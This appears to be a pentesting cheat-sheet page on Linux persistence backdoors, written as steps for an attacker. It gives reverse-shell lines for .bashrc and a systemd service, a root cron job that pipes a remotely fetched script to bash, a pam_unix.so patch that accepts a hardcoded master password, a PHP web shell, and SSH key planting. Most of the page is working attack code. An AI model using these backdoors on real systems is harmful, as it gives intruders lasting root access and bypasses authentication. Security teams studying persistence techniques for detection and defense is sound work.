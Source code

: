 ```yaml
---
title: Linux Backdoors
description: After compromising a target machine, the adversary attempts to establish persistent access. This page lists some methods of backdoors in Linux for persistence.
tags:
    - Privilege Escalation
refs:
date: 2023-03-19
draft: false
---
```


## .bashrc

Add this line to **`/root/.bashrc`** or **`/home/<user>/.bashrc`** to gain access to target machine by reverse shell when the victim user logged in.  

```sh
bash -i >& /dev/tcp/10.0.0.1/4444
```

Of course we need to always open netcat listener to be able to fetch incoming connection from the target.

```sh
nc -lvnp 4444
```

<br />

## Cron

Add this line to the cron file like **`/etc/crontab`** in the target machine.

```sh
* * * * * root curl http://<local-ip>:<local-port>/shell | bash
```

Create the **“shell”** file in local machine.  
Replace **`<local-ip>`** with your ip address.

```sh
#!/bin/bash
bash -i >& /dev/tcp/<local-ip>/4444 0>&1
```

Now start local web server in local machine. Note that your current working direcotry need to be where the **“shell”** is located.

```sh
python3 -m http.server 4444
```

Once the cron job downloads the **“shell”** file,  run **“bash”** command to execute the **“shell”**.  
We should gain access to the target shell.

<br />

## pam_unix.so

The pam_unix.so module is likely located in **`/usr/lib/security`** or **`/usr/lib/x86_64-linux-gnu/security`** directory. It automatically detects and uses shadow passwords to authenticate users.  
See this line in the pam_unix.so.

```cpp
...

/* verify the password of this user */
retval = _unix_verify_password(pamh, name, p, ctrl);
name = p = NULL;

...
```

Modify this line to as below.

```cpp
...

/* verify the password of this user */
if (strcmp(p, "hackyou123") != 0) {
	retval = _unix_verify_password(pamh, name, p, ctrl);
} else {
	retval = PAM_SUCCESS;
}
name = p = NULL;

AUTH_RETURN;

...
```

Whenever you login to the target system using the password “hackyou123”, you can successfully login.

<br />

## PHP

### 1. Create a Payload

Create a php file (e.g. shell.php) into **`/var/www/html`**.

```php
<?php 

	if (isset($_REQUEST['cmd'])) {
		echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
	}

?>
```

Leave the php file in **`/var/www/html`**.  

### 2. Reverse Shell

After that, start a listener for receiving the outcomming connection.

```sh
nc -lvnp 4444
```

Now access to the web page as below.  
Replace **`<local-ip>`** with your ip address.

```bash
http://<target-ip>/shell.php?cmd=bach -i >& /dev/tcp/<local-ip>/4444 0>&1
```

We should get a shell.

<br />

## SSH

We can establish a backdoor to allow us to be able to connect the target SSH server anytime by leaving our public key in the target machine.

### 1. Generate a New SSH key
    
First off, run the following command to generate SSH key.

```sh
ssh-keygen
```

It will generate two keys, **private key (id_rsa)** and **public key (id_rsa.pub)**.

### 2. Transfer Our SSH Public Key to Target System

If there is no **`.ssh`** directory in target, we need to create it.

```bash
mkdir .ssh
```

Then put our public key (**id_rsa.pub**) into **`/root/.ssh`** or **`/home/<user>/.ssh`** in the target machine.  
**scp** command can be used for transfering it. Replace **`<target-user>`** and **`<target-iip>`** depending on your target.

```sh
scp ./id_rsa.pub <target-user>@<target-ip>:/root/.ssh/
# or
scp ./id_rsa.pub <target-user>@<target-ip>:/home/<target-user>/.ssh/
```

### 3. Add the Public Key Content to authorized_keys

Also we need to add the content of our **`id_rsa.pub`** to the target **authorized_keys** file.

```sh
cat id_rsa.pub >> authorized_keys
```

### 4. Change Permission of SSH

In target machine, we need to set the right permissions of the file/directory. Otherwise we cannot connect SSH. 
Replace **`<target-user>`** with your target.

```sh
chmod 700 /root
chmod 700 /root/.ssh
chmod 600 /root/.ssh/authorized_keys
# or
chmod 700 /home/<target-user>
chmod 700 /home/<target-user>/.ssh
chmod 600 /home/<target-user>/.ssh/authorized_keys
```

### 5. Connect to SSH Anytime
    
After that, we can connect to the target SSH when we want to connect it as long as the public key in **.ssh** directory is not removed.
Before connecting, we need to modify the permission of our private key in local.

```bash
chmod 600 private_key
```

Now we can connect to SSH of the target.  

```bash
ssh root@<target-ip> -i private_key
# or
ssh <target-user>@<target-ip> -i private_key
```

<br />

## Systemd

We can use systemd as a backdoor because an arbitrary command will be executed when a service start.  
The command is stored in **`[Services]`** section in the configuration file.  

### 1. Create a New Systemd Config File

Create **`/etc/systemd/system/backdoor.service`** in target machine.  
This service will execute **reverse shell** when starting.  
Replace **`<local-ip>`** with your ip address.

```bash
[UNIT]
Description=Backdoor

[Service]
Type=simple
ExecStart=/bin/bash -i >& /dev/tcp/<local-ip>/4444 0>&1

[Install]
WantedBy=multi-user.target
```

Then enable the service.

```bash
systemctl enable backdoor
```

Now this service will start when the target system boots.

### 2. Wait for Reverse Connecting

We need to leave the netcat listener running in local machine.

```sh
nc -lvnp 4444
```

Then we'll get a shell anytime the service starts.